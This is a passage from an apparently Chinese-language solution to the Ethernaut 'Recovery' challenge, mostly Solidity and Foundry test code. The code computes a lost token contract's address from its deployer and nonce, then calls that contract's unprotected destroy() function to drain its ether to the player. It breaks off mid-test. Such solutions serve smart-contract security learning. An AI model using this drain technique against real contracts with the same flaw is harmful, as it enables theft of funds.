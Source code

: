 ```solidity
                            nonce             // The nonce
                        )
                    )
                )
            )
        );

        return lostContractAddress;
    }
}
```

### Foundry 测试代码

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/17_Recovery.sol";

// 攻击合约定义 (同上)
contract Attack {
    function calculate(address _deployerAddress) public pure returns (address) {
        bytes1 nonce = bytes1(0x01);
        address lostContractAddress = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), _deployerAddress, nonce)))));
        return lostContractAddress;
    }
}

contract RecoveryTest is Test {
    Recovery recoveryInstance;
    Attack attack;
    address payable player;

    function setUp() public {
        player = payable(vm.addr(1));
        
        // 部署 Recovery 合约并让它创建一个 SimpleToken
        vm.deal(address(this), 0.001 ether);
        recoveryInstance = new Recovery();
        recoveryInstance.generateToken{value: 0.001 ether}("MyToken", 100);

        attack = new Attack();
    }

    function testAttacker() public {
        vm.startPrank(player, player);

        // 步骤 1: 计算丢失的 SimpleToken 合约地址
        address payable lostContract = payable(attack.calculate(address(recoveryInstance)));

        // 验证余额是否正确
        assertEq(lostContract.balance, 0.001 ether);

        // 步骤 2: 调用 destroy 函数取回资金
        SimpleToken(lostContract).destroy(player);

        // 验证资金是否已取回
        assertEq(lostContract.balance, 0);
        // 注意: player 的最终余额会略低于初始值，因为有 gas 消耗

```
